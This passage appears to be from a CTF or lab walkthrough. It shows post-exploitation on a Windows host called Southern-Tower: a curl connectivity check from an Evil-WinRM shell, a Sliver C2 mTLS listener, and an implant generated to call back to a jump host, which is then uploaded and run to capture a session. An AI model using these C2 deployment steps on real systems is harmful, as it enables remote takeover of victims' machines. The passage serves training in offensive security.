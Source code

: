 ```
*Evil-WinRM* PS C:\Users\gatari\Documents> curl 10.2.10.9:41337

┌──(kali㉿kali)-[~/ctf]
└─$ nc -lnvp 6969
listening on [any] 6969 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 45878
GET / HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.20348.558
Host: 10.2.10.9:41337
Connection: Keep-Alive
```

#### Sliver C2 Deployment

Next, we can set up a listener on the jump host using `mtls` on `TCP/6969` (on the attacker machine):

```
sliver > mtls --lport 6969

[*] Starting mTLS listener ...

[*] Successfully started job #1
```

And, generate the payload that will call back to the jump host on `TCP/41337` (remember `FwdRule1`):

```
sliver > generate --mtls 10.2.10.9:41337 -l -G --name initial

[*] Generating new windows/amd64 implant binary
[!] Symbol obfuscation is disabled
[*] Build completed in 8s
[*] Implant saved to /home/kali/ctf/initial.exe
```

Lastly, upload and run the payload on `Southern-Tower`:

```
*Evil-WinRM* PS C:\Users\gatari\Documents> upload initial.exe
                                        
Info: Uploading /home/kali/ctf/initial.exe to C:\Users\gatari\Documents\initial.exe
                                        
Data: 13330432 bytes of 13330432 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\gatari\Documents> .\initial.exe
```

And, the session is captured on the teamserver.

```
[*] Session 2b53ae3b initial - 127.0.0.1:33024 (Southern-Tower) - windows/amd64 - Fri, 09 May 2025 04:40:44 EDT

sliver > sessions -i 2b

[*] Active session initial (2b53ae3b)

sliver (initial) > info

        Session ID: 2b53ae3b-2f5a-4f87-84da-b6574ba8d097
              Name: initial
          Hostname: Southern-Tower
              UUID: 482c6d27-478a-4eda-985a-49b9abd79fe4
          Username: SOUTHERN-TOWER\gatari
               UID: S-1-5-21-3367427693-1023454350-3607259003-1004
```